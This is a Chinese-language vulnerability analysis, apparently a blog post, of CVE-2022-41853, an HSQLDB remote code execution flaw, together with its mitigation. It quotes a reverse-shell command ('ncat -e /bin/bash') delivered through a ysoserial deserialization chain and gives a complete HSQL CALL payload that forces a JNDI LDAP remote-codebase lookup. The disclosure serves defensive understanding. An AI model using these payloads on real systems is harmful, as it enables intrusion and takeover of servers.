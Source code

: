#  CVE-2022-41853 分析：通过 Java 反序列化和远程代码库攻击使用静态函数获取 RCE   
 Ots安全   2023-11-26 12:59  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
那些在 hsqldb（HyperSQL 数据库）中使用 java.sql.Statement 或 java.sql.PreparedStatement 来处理不受信任的输入的人可能容易受到远程代码执行攻击。默认情况下，允许调用类路径中任何 Java 类的任何静态方法，从而导致代码执行。可以通过更新到 2.7.1 或将系统属性“hsqldb.method_class_names”设置为允许调用的类来防止此问题。例如，可以使用 System.setProperty("hsqldb.method_class_names", "abc") 或 Java 参数 -Dhsqldb.method_class_names="abc"。从版本 2.7.1 开始，默认情况下，除 java.lang.Math 中的类之外的所有类都不可访问，并且需要手动启用。  
  
**披露：**  
  
可以在此处找到此漏洞的最初披露信息。  
  
原创发现者  
  
**OSS-Fuzz 团队**  
  
https://github.com/google/oss-fuzz  
  
**概念证明：**  
  
早在 2021 年，我正在阅读 Mikhail Klyuchnikov 撰写的博文“F5 Big-IP 中的远程代码执行”，了解如何使用路径规范化攻击 + HSQL“CALL”查询来调用任意 Java 静态方法以获得 RCE 。  
  
当时，我正在报告和研究 Apache SOLR 中的漏洞，我记得他们的JDBC Stream 示例使用 HSQL，并开始设置测试环境。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadJpoHp6SN3N4UHZmicWIXpXqNRtyeJdXhMxoe9YicJib2tN9RibocBiauMVLfKvrdiaFttUf6aoKrgjArA/640?wx_fmt=png&from=appmsg "")  
  
注意：不幸的是，此漏洞不会影响默认的 Apache Solr 服务器，因为 HSQL JAR 需要专门放置在文件夹“./server/solr-webapp/webapp/WEB-INF/lib/”中，以便驱动程序被Stream JDBC 组件可访问。  
  
**通过 Java 反序列化进行 RCE**  
  
因为 F5 中的 RCE 使用位于“tmui.jar”（特定于 F5 应用程序的 JAR）中的“com.f5.view.web.pagedefinition.shuffler.Scripting.setRequestContext”函数，所以我想提出一个应用程序独立的负载，我开始研究如何链接常用的 JAR（例如Apache Commons Collections、Apache Log4J）以便调用静态函数并获取 RCE。  
  
由于ysoserial的 CommonsCollections* 小工具是我首先想到的，因此我沿着 Java 反序列化的路线前进，得到了以下结果：  
- 调用java.lang.System.setProperty('org.apache.commons.collections.enableUnsafeSerialization','true')  
以启用不安全的反序列化（当您可以完全删除防护措施时为什么要绕过:)））  
  
- 使用public public static <T> T org.apache.commons.lang.SerializationUtils.deserialize(byte[] objectData)  
作为我们的输入的接收器来到达ObjectInputStream(x).readObject()  
函数  
  
- 使用函数public public static byte[] org.apache.logging.log4j.core.config.plugins.convert.parseBase64Binary(String encoded)  
或public static byte[] org.apache.logging.log4j.core.config.plugins.convert.parseHexBinary(String s)  
将我们编码的 ysoserial 有效负载字符串转换为字节数组，该数组将由deserialize(byte[] objectData)  
  
完整的 HSQL 负载具有以下形式：  
  
```

```  
  
  
注意：在这种情况下，ysoserial 有效负载的类型为 CommonsCollection6，并将执行ncat -e /bin/bash 127.1 4444反向 shell 命令。  
  
注 2：独立的 HSQLDB.jar 不易受到此有效负载的攻击，因为它不包含 Apache Commons Collections JAR。当 HSQL 包含在 Web 应用程序（例如 SOLR、Liferay 等）中时，此漏洞（大多数情况下）会起作用。  
  
更多细节和利用过程可以在这个PDF中找到。  
  
**通过 LDAP 或 RMI 进行远程代码库攻击的 RCE**  
  
在 2023 年阅读这个主题时，我偶然发现了iSafeBlue 的这篇精彩演示文稿“探索 JNDI 攻击”，该演示文稿用于  
  
java.lang.System.setProperty设置  
com.sun.jndi.ldap.object.trustURLCodebase或  
com.sun.jndi.rmi.object.trustURLCodebase为 true，然后执行 LDAP/RMI 查找，以便成功执行 Java 远程代码库攻击。  
  
HSQL 负载示例：  
  
```
CALL java.lang.System.setProperty"('com.sun.jndi.ldap.object.trustURLCodebase','true') + "javax.naming.InitialContext.doLookup"('ldap://127.0.0.1:4444/pgesux')
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadJpoHp6SN3N4UHZmicWIXpXfrlreI1hFahtqC7t8eBsiaJia9F2P6P87u5ciauUmAc3Twmtj1XKrYPqw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
